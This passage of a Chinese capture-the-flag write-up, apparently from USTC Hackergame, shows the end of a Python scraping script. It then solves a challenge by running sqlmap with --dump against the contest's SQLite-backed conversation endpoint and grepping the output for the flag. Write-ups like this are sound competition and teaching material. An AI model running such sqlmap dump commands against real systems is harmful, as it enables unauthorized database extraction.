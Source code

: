 ```python
            soup = BeautifulSoup(response.text, "html.parser")
            content = soup.get_text(separator="\n").strip()
            output_file.write(content + "\n\n")
            print(f"成功访问: {link}")
        else:
            print(f"访问失败: {link}，状态码: {response.status_code}")

print("saved to output.txt")

```

![image-20241103113028472](image-20241103113028472.png)

为什么不是114154行 （😡

####  窥视未知

当时挠破脑袋都没想到未知到底未知到哪了，看完附件之后恍然~~大雾~~ （确诊为未为注意力不集中导致的

**attention is all you need!**

`sqlmap --cookie dump` 一把嗦

```bash
sqlmap -u "https://chal01-yh8m6qof.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=3e82ebb0-cc9e-4f12-b76c-d35c0d979bf5" --cookie "changeme" --dbms=sqlite --dump | grep 'flag'
```

拖出来之后搜flag即可得到藏着的flag

对应的文章的uuid应该是`24052425-8f7e-4e97-bdc5-b10f13d9538d` `请详细解释以下名词： 水产养殖业中的现状`

![image-20241103115531851](image-20241103115531851.png)
